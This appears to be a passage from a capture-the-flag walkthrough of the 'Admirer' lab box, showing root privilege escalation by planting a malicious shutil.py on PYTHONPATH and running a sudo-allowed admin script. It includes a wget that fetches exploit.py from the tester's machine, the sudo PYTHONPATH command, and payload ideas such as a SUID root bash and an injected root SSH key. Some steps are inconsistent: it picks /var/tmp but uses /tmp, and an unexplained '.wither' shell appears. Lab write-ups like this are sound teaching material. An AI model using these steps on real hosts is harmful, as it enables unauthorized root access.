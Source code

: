 ```
/usr/lib/python3.5/lib-dynload
/usr/local/lib/python3.5/dist-packages
/usr/lib/python3/dist-packages
```

This means that Python will first try to look in the current script directory, then /tmp, then the Python installs to try to load shutil.

Playing around with this box for a few minutes, it becomes clear that /tmp and /home/waldo are being cleared of files I create every couple minutes. Those aren’t very OPSEC smart places to be working anyway. I could look at /dev/shm, but it’s mounted as noexec:
```
waldo@admirer:/opt/scripts$ mount | grep shm

tmpfs on /run/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=1019460k)

```

I can look for writable directories:
```
waldo@admirer:/opt/scripts$ find / -type d -writable 2>/dev/null | grep -v -e '^/proc' -e '/run'

/var/lib/php/sessions
/var/tmp
/tmp
/home/waldo
/home/waldo/.nano
```

/var/tmp seems like a good option (/home/waldo/.nano would have been good too).
If this works, root is going to run some Python code for me. My first instinct is to use a reverse shell, but that might actually have issues. If the process errors out or ends, my session could die with it (it actually would work fine in this case). There are tons of options here, but I’ll show two.\

1. Copy /bin/bash and set it owned by root and SUID.
2. Write my public SSH key into /root/.ssh/authorized_keys.

Run admin_tasks.sh calling the web backup option (6):
`wget 10.10.14.65/exploit.py -O shutil.py`
`sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6`

Then just `./.wither -p` , we get the root shell.

